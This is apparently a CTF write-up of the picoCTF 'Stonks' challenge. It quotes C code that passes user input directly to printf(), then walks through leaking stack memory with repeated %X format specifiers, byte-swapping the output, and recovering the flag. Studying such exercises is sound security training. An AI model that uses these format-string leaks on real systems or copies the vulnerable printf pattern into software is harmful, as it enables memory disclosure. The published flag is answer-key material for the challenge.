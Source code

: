 # Description
I decided to try something no one else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! `vuln.c` 
`nc mercury.picoctf.net 16439`

**tags:Binary Exploitation**

## Notes
- Connect to the server `nc mercury.picoctf.net 16439`
- `cat vuln.c` parts that are interesting
```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```
```// TODO: Figure out how to read token from the file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

## Connecting to server
```nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```
Entering 2 will result :
```Portfolio as of Current_time

You don't own any stonks!
Goodbye!
```

Entering 1 will result :
```Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```
- Whatever value you put in will get executed ( Input is the API? )

## Looking back at the code

```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```

- From the snippet above, the API token looks to be the input.
- The ONLY validation is when the token isn't entered.

```// TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

- Comment shows that the token is only being asked ( does not get checked )
- Memory space is created with `malloc()` for the API token
- The last line prints out the API token with `printf()`

## Input validation
print type specifiers for `printf()` :
Reference: 
https://cplusplus.com/reference/cstdio/printf/

Tried inputting different type specifiers: 
- `%p` for point address
Returned `0x9d7e410` - Converts into a text = `�~A`
- `%c` for character
Returned `�`
- `%x` for hexadecimal
Returned `809e3d0` - Converts into a text = `=`
- `%X` for hexadecimal uppercase
Returned `C`

- Tried inputting multiple `%X`s
Returned :
 `93CF3D0804B00080489C3F7FBBD80FFFFFFFF193CD160F7FC9110F7FBBDC7093CE180193CF3B093CF3D06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FFEB007DF7FF6AF8F7FC9440C3844B0010F7E58CE9F7FCA0C0F7FBB5C0F7FBB000FFEB7858F7E4968DF7FBB5C08048ECAFFEB78640F7FDDF09804B000F7FBB000F7FBBE20FFEB7898F7FE3D50F7FBC890C3844B00F7FBB000804B000FFEB78988048C8693CD160`

Converts into :

``^fî?°^`H^|?YØÿÿÿñ^fìgYÜp^fí^fî=nãðocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ^~}
÷ùJ^~÷ùJø÷öt@â÷ßlé÷ö^`À÷õ^uÀ÷õ^pÿ^~ÜH÷Þv^m÷õ^uÀ^`Hì¯ùíÅ@÷÷¿     
^`KYYâùíÈ^o`âùíÈ^o^aÕZ^i ¡ Y°ÿ^~Ü^h^`HÈhnÁ`ÿ^~Ütÿ^~Ü^h^`H¾^=Y?Àÿ^~Ý<ÿ^~Ý4``

- Looks like the flag is in it

Removed unnecessary bytes:
`6F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FF9E06FF9E007D`

Converts to : 
`ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ}`
- Looks like it's using a different byte-order sequence.
- Tried converting endianness
    `}ÿÿ6caec7cbn3y_y_m0ll_m5t_4I_l0CTF{pico`
- Found the sequence order (8 bytes are flipped)
    E.g. First 8 bytes `6F 63 69 70` to `70 69 63 6F`
- Manually relocated bytes
`7069636F4354467B495F6C3035745F346C6C5F6D795F6D306E33795F63376362366361657D00957D009EFF`

Converts to :

**Flag found: picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}^~ÿ**

Total time spent: ~6 hours


Hexadecimal Converter: 
https://www.scadacore.com/tools/programming-calculators/online-hex-converer

Endianness Converter:
https://www.save-editor.com/tools/wse_hex.html
